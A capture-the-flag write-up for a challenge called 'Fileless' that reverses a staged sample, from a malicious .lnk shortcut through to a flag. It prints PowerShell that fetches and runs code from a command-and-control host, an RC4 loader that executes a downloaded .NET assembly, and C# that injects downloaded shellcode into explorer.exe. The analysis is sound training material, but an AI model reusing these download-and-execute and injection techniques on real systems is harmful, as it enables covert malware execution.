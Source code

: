 # Fileless

> I have downloaded a funny cat picture. But I can't open it. And my computer behaves weirdly. Can you help me?
>
> _The challenge was tested on Windows 10. It may or may not work on another systems.
If something crashes - reverse harder, the task is still solvable._
>
> [funny-cat.gif.lnk](https://hack.cert.pl/files/funny-cat-4c9880d58c9ae5620082faa7249362c5d1ee04d9.gif.lnk) 1.8 KB

## .lnk file
With `hexdump -C` it's possible to find a PoweShell script which sets `$C2` variable to `fileless.ecsc23.hack.cert.pl:5060` and then executes a script downloaded from `http://$C2/ywHcw88t9ExkgtCj2lUO`. This script then decodes a base64-encoded blob and xors it with a key to get and execute the 1st stage of the program.

## Stage 1 (and `token.txt`)
The first stage (with whitespaces added for readability) looks like this:
```ps
$E = [System.Text.Encoding]::ASCII;
$K = $E.GetBytes('zHsqz5LbhQuqcWQmJvRW');
$R = {
	$D, $K = $Args;
	$i = 0;
	$S = 0..255;
	0..255 | %{
		$J = ($J + $S[$_] + $K[$_ % $K.Length]) % 256;
		$S[$_], $S[$J] = $S[$J], $S[$_]
	};
	$D | %{
		$I = ($I + 1) % 256;
		$H = ($H + $S[$I]) % 256;
		$S[$I], $S[$H] = $S[$H], $S[$I];
		$_ -bxor $S[($S[$I] + $S[$H]) % 256]
	}
}

if ((compare-object
    (& $R $E.GetBytes((Get-Content "C:\\Users\\Public\\Documents\\token.txt")) $K)
    ([System.Convert]::FromBase64String("FxxGrgbb/w=="))
)) {
	Exit
}

[System.Reflection.Assembly]::Load([byte[]](& $R (Invoke-WebRequest "http://$C2/O4vg7tmRa8fOCYGQH9U5" -UseBasicParsing).Content $K))
	.GetType('E.C')
	.GetMethod('SC', [Reflection.BindingFlags] 'Static, Public, NonPublic')
	.Invoke($null, [object[]]@($C2))
```
The code block stored as `$R` is clearly an implementation of RC4, which is self-inverse. Hence, running
```ps
> $E.GetString((& $R ([System.Convert]::FromBase64String("FxxGrgbb/w==")) $K))
Boz3nka
```
returns the expected content of `token.txt`.

The final part of this script fetches data from the C2, decrypts it using `$R` and `$K`, loads it as a .NET assembly and runs a function from it. The assembly can be easily downloaded and saved to a file using:
```ps
> $asm = [System.Reflection.Assembly]::Load([byte[]](& $R (Invoke-WebRequest "http://$C2/O4vg7tmRa8fOCYGQH9U5" -UseBasicParsing).Content $K))
> $f = $asm.GetType().GetMethod("GetRawBytes", [Reflection.BindingFlags] "Instance, NonPublic")
> Set-Content -Value $f.Invoke($asm, $null) -Encoding Byte stage2.exe
```
(Note: it's necessary to use reflections to call `GetRawBytes` on `$asm`, because it's a private method.)

## Stage 2 (and `credentials.txt`)
Now it's possible to inspect `stage2.exe` created in the previous step using a .NET decompiler (e.g. ILSpy). The method invoked in the 1st stage is `E.C.SC`, which has the following code:
```cs
// E.C
using [...];

public static void SC(string c2)
{
	string s = File.ReadAllText("C:\\Users\\Public\\Documents\\credentials.txt");
	byte[] bytes = Encoding.ASCII.GetBytes(s);
	if (!Enumerable.SequenceEqual(second: Convert.FromBase64String("uOWIiZv8ed7f"), first: Bop(bytes)))
	{
		Process.GetCurrentProcess().Kill();
	}
	Str(Convert.FromBase64String("s/6mq5GxZ8HKJ91JN/3P7dd5auOx62xRLiBZPbCIut7hEwF3oB2+11x8"));
	Fun(new HttpClient().GetAsync("http://" + c2 + "/" + PATH).Result.Content.ReadAsByteArrayAsync().Result);
}
```
Content of `credentials.txt` is passed through `Bop` method and compared with a hard-encoded value. The `Bop` method is:
```cs
// E.C
public static byte[] Bop(byte[] data)
{
	byte[] array = new byte[data.Length];
	byte[] array2 = Ks(data.Length, ECSC);
	for (int i = 0; i < data.Length; i++)
	{
		array[i] = (byte)(array2[i] ^ data[i]);
	}
	return array;
}
```
Since it uses xor (which is self-inverse) on consecutive bytes to calculate the ciphertext, we can calculate the expected contents of `credentials.txt` using the following commands in PowerShell (assuming that variables from the previous stage are still set):
```ps
> $bop = $asm.GetType("E.C").GetMethod("Bop", [Reflection.BindingFlags] "Static, Public")
> $E.GetString($bop.Invoke($null, @(,[System.Convert]::FromBase64String("uOWIiZv8ed7f"))))
coZR0b1sz
```

The 3rd stage is run by downloading data from the `C2` from a path specified by the `PATH` static variable and passing it to `Fun` method:
```cs
// E.C
using System;
using System.Diagnostics;

private static void Fun(byte[] buf)
{
	Process process = Process.GetProcessesByName("explorer")[0];
	IntPtr hProcess = OpenProcess(2035711u, bInheritHandle: false, process.Id);
	IntPtr intPtr = VirtualAllocEx(hProcess, IntPtr.Zero, 4096u, 12288u, 64u);
	WriteProcessMemory(hProcess, intPtr, buf, buf.Length, out var _);
	CreateRemoteThread(hProcess, IntPtr.Zero, 0u, intPtr, IntPtr.Zero, 0u, IntPtr.Zero);
}
```
This method allocates a buffer in the `explorer` process, fills it with the data downloaded from the C2, and runs it as a remote thread. Hence, the data should be a flat binary which contains a procedure called as the 3rd stage of the challenge. This data can be saved with the following PowerShell command:
```ps
> $s3 = (Invoke-WebRequest "http://$C2/$($asm.GetType('E.C').GetField('PATH').GetValue($null))" -UseBasicParsing).Content
> Set-Content -Value $s3 -Encoding Byte stage3.bin
```

## Stage 3 (and `wallet.txt`)
First, disassemble `stage3.bin` created in the previous step (for this, I'm using a Linux utility `objdump`):
```sh
$ objdump -D -m i386 -Mintel,x86-64 -b binary stage3.bin > stage3.asm
```
Now, the following can be deduced (all "absolute" addresses are the addresses set by `objdump`, which are relative to the beginning of the code):
- In the "main" procedure (the one starting at the top of the file), some local variables are set:
    - string `C:\Users\Public\Documents\token.txt` at `[rbp+0x850]`
    - string `C:\Users\Public\Documents\credentials.txt` at `[rbp+0x820]`
    - string `C:\Users\Public\Documents\wallet.txt` at `[rbp+0x7f0]`
    - wide-char string `user32` at `[rbp+0x7e2]`
    - wide-char string `kernel32` at `[rbp+0x7d0]`
    - string `CreateFileA` at `[rbp+0x7c4]`
    - string `LoadLibraryW` at `[rbp+0x7b7]`
    - string `ReadFile` at `[rbp+0x7ae]`
    - string `ExitProcess` at `[rbp+0x7a2]`
    - string `MessageBoxA` at `[rbp+0x796]`
    - string `Congratulations` at `[rbp+0x780]`
- The procedure at `0x60f` is called twice, each time with `kernel32` as a single argument; it probably loads a DLL
- The procedure at `0x42f` is called several times with 2 arguments, 1st being a value returned from `0x60f` or `LoadLibraryW`, 2nd being a function name; it probably loads a function from a DLL
- The procedure at `0x6a9` reads a file from a path specified in the 1st argument and copies its content to a buffer passed in the 2nd argument
- The procedure at `0x7aa` checks whether the content of `wallet.txt` is correct:
    - each character code from the only argument is increased by 10 and then compared with a corresponding character code from the string `xk7k~>u7KZ^`
    - therefore the expected input is `na-at4k-APT`
- Finally, in the "main" procedure, a buffer at `[rbp+0x8a8]` is filled with `ecsc23{` and contents of the files `token.txt`, `credentials.txt` and `wallet.txt` separated by `-`

## Flag
`ecsc23{Boz3nka-coZR0b1sz-na-at4k-APT}`
